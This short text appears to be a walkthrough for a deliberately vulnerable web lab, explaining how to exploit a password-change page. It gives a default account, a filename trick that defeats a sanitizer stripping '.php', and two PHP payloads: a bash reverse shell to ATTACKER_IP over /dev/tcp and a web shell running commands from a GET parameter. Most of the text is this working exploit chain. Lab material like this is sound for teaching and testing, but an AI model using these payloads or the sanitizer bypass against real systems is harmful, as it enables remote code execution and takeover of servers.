 The user present by default inside the website is (Username:Password):

**alice.williams@unidv.it:abc123** (the password is not used inside the website, you can ignore it)

You can inspect the directory and the files in */passwords*.

To exploit the vulnerability use the following payload inside the /admin/change.php page:

into Username: **alice.williams@unidv.it.ph.phpp** (.php gets sanitized to empty string thus simply obtaining .php after sanitization)

into New password: (RAW: is used to avoid MD5 hashing)
- **RAW:&lt;?php exec("/bin/bash -c 'exec 5<>/dev/tcp/ATTACKER_IP/4444; cat <&5 | while read line; do \$line 2>&5 >&5; done'");?>**
- **RAW:&lt;?php system($_GET['cmd']);?>**

The first gets a Reverse shell (make sure to edit the ATTACKER_IP), while the seconds allows you to put commands as 'cmd' get argument in each request.

Then access the file you have just created at */passwords/alice.williams@unidv.it.php* .